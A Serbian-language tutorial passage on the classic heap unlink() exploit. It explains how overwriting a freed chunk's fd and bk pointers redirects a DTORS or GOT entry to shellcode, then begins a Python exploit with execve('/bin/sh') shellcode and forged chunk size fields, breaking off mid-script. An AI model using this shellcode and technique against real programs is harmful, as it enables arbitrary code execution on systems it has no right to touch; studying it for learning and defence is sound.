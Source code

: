 Slobodni blokovi su u listi dvostruko povezanih (bin) i nikada ne mogu biti dva slobodna bloka zajedno (spajaju se)

U "size" postoje bitovi koji pokazuju: Da li je prethodni blok u upotrebi, da li je blok dodeljen putem mmap() i da li blok pripada primarnoj areni.

Ako se oslobodi blok i bilo koji od susednih blokova je slobodan, oni se spajaju pomoću makroa unlink() i novi, veći blok se prosleđuje frontlink() da ga ubaci u odgovarajući bin.

unlink(){\
BK = P->bk; —> BK novog bloka je onaj koji je imao blok koji je već bio slobodan\
FD = P->fd; —> FD novog bloka je onaj koji je imao blok koji je već bio slobodan\
FD->bk = BK; —> BK sledećeg bloka pokazuje na novi blok\
BK->fd = FD; —> FD prethodnog bloka pokazuje na novi blok\
}

Dakle, ako uspemo da modifikujemo P->bk sa adresom shellcode-a i P->fd sa adresom unosa u GOT ili DTORS manje 12, postiže se:

BK = P->bk = \&shellcode\
FD = P->fd = &\_\_dtor\_end\_\_ - 12\
FD->bk = BK -> \*((&\_\_dtor\_end\_\_ - 12) + 12) = \&shellcode

I tako se izvršava shellcode prilikom izlaska iz programa.

Takođe, 4. izjava unlink() piše nešto i shellcode mora biti prilagođen za ovo:

BK->fd = FD -> \*(\&shellcode + 8) = (&\_\_dtor\_end\_\_ - 12) —> Ovo uzrokuje pisanje 4 bajta počevši od 8. bajta shellcode-a, tako da prva instrukcija shellcode-a mora biti skok kako bi preskočila ovo i prešla na nops koji vode do ostatka shellcode-a.

Stoga se exploit kreira:

U buffer1 ubacujemo shellcode počevši od skoka kako bi prešao na nops ili na ostatak shellcode-a.

Nakon shellcode-a ubacujemo punjenje dok ne dođemo do polja prev\_size i size sledećeg bloka. Na ovim mestima ubacujemo 0xfffffff0 (tako da se prev\_size prepiše da ima bit koji kaže da je slobodan) i “-4“(0xfffffffc) u size (da bi kada proveri u 3. bloku da li je 2. bio slobodan, zapravo ode na modifikovani prev\_size koji će reći da je slobodan) -> Tako kada free() istražuje, ići će na size 3. ali će zapravo ići na 2. - 4 i misliće da je 2. blok slobodan. Tada će pozvati **unlink()**. Prilikom poziva unlink() koristiće se prvi podaci iz 2. dela, tako da će se tu ubaciti adresa koju želite da prepisujete - 12 (jer će u FD->bk dodati 12 na adresu sačuvanu u FD). Na toj adresi će se uneti druga adresa koja se nalazi u 2. delu, a koja će biti adresa shell koda (P->bk lažni).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12 bajtova punjenja**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Bit koji označava da je prethodni deo slobodan treba da bude 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, da bi mislio da je "size" 3. dela 4 bajta unazad (ukazuje na prev\_size) jer tu proverava da li je 2. deo slobodan**
